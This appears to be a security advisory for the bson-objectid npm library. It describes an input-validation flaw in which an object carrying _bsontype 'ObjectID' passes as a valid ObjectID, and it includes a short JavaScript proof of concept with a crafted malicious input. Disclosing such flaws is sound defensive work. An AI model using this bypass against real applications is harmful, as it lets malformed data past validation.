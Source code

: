 # Overview
[bson-objectid](https://snyk.io/vuln/None) is a library that allows you to construct ObjectIDs without the mongodb driver or bson module.

Affected versions of this package are vulnerable to Insufficient Input Validation. The ObjectID() function allows an attacker to generate a malformed objectid by inserting an additional property to the user-input, because bson-objectid will return early if it detects _bsontype==ObjectID in the user-input object. As a result, objects in arbitrary forms can bypass formatting if they have a valid bsontype.

# Proof of Concept

```
var ObjectID = require("bson-objectid");

var json = {
    "mal_formkey": {
        "payload": "xxxx"
    },
    "_bsontype" : "ObjectID"
};

console.log(ObjectID(json));
console.log(ObjectID.isValid(ObjectID(json)));
```